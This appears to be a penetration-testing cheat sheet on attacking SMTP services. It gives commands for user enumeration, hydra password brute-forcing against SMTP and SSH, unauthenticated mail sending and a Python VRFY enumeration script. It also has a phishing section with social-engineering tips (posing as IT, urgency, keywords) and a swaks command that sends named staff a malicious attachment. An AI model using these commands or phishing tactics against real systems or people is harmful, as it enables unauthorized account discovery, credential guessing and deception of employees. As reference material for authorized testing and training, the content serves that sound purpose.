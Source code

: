 # 25, 587 - SMTP

| [https://www.hackingarticles.in/4-ways-smtp-enumeration/](https://www.hackingarticles.in/4-ways-smtp-enumeration/)               |
| -------------------------------------------------------------------------------------------------------------------------------- |
| [https://computer.howstuffworks.com/e-mail-messaging/email3.htm](https://computer.howstuffworks.com/e-mail-messaging/email3.htm) |
| [https://www.afternerd.com/blog/smtp/](https://www.afternerd.com/blog/smtp/)                                                     |

```bash
nc -nv $IP 25
VRFY root
VRFY bob
VRFY idontexist

nmap -p 25 --open -sV -sC $IP
nmap --script smtp-enum-users <IP>

smtp-user-enum -M <MODE> -u <USER> -t <IP>
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150

hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.194.126 ssh


telnet 10.11.1.111 25
HELO foo
VRFY root
# Send email unauth:
MAIL FROM:admin@admin.com
RCPT TO:DestinationEmail@DestinationDomain.com
DATA
subject test

body

.

Receive:
250 OK
```

## Confirm valid mail account

{% code overflow="wrap" fullWidth="true" %}
```sh
swaks -server domain.com --auth LOGIn --auth-user user@domain.com --auth-password mypassword --quit-after AUTH
# Alternative
python
>>> import smtplib
>>> server = smtplib.SMTP('domain.com:25') # try also 587 port if it is open
>>> server.login('admin', 'mypassword') # try also user@domain.com
```
{% endcode %}

## Username enumeration

{% code overflow="wrap" fullWidth="true" %}
```bash
# USE /usr/share/custom-wordlists/Names/usernames.txt with 81475 lines
# SHORTER ALTERNATIVE /usr/share/custom-wordlists/Fuzzing/big.txt with 20469 lines
# ANOTHER ALTERNATIVE /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt
# In case we see a potential domain like domain.com that is needed to enumerate
smtp-user-enum -D domain.com -U /usr/share/custom-wordlists/Names/usernames.txt -t $IP -m 150
# In case VRFY is not allowed (confirm it with telnet $IP 25), try RCPT or EXPN method
smtp-user-enum -M RCPT -D domain.com -U /usr/share/custom-wordlists/Names/usernames.txt -t $IP -m 150
```
{% endcode %}

## Write an email with swaks (Phishing email)

[#phishing](../../misc/red-teaming-c2.md#phishing "mention")

### Keys to send a good phishing email

* Sender
* Recipient
* Headers / Subject? (include keyword/tech/software here)
* Body // Body with link + keyword(s)? (include keyword/tech/software here)
* Send every request a handful of times, even if it was successful at first (more different creds might be sent)

We have to combine every option / keyword / technology / piece of info we gathered to make it work

Reasoning:

* We may think that people listen to IT, so IT should send the emails. Then, we send emails from it to the other emails
* We should use every keyword/software/piece of info available. In our case, we found Citrix so let's use it.
* We should use keyword (Citrix) both on subject and body, also saying "click" or showing urgency.

{% code overflow="wrap" fullWidth="true" %}
```sh
# In a real assessment, to make the email more convincing, we should also use passive information gathering and include information on the subject/body only known by employees and staff
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt - -header "Subject: Staging Script" --suppress-data -ap
# -t recipients / --from sender / --attach file attachment / --server $SMTP_SERVER_IP / --body file w/ body text 
# --header subject / --suppress-data to summarize info regarding SMTP transactions / -ap enable password authentication (in case SMTP requires user:pass to work and send emails)

# swaks options
Body parameter can be text such as a link "http://$IP/path"
Body can be just --body and a link
If we have to send links, place directly the URL with the --body parameter or --header "Subject: http://X"
```
{% endcode %}

## Python Script

{% code overflow="wrap" fullWidth="true" %}
```python
# Python script for SMTP enumeration

#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 3:
        print("Usage: vrfy.py <username> <target_ip>")
        sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
ip = sys.argv[2]
connect = s.connect((ip,25))

# Receive the banner
banner = s.recv(1024)

print(banner)

# VRFY a user
user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)

print(result)

# Close the socket
s.close()


python3 smtp.py root 192.168.50.8
```
{% endcode %}

## Windows

{% code overflow="wrap" %}
```bash
# Windows -install Telnet 
dism /online /Enable-Feature /FeatureName:TelnetClient 
#  need admin rights for this, otherwisetransfer the binary c:\windows\system32\telnet.exe to that machine
C:\Windows\system32>telnet 192.168.50.8 25
```
{% endcode %}
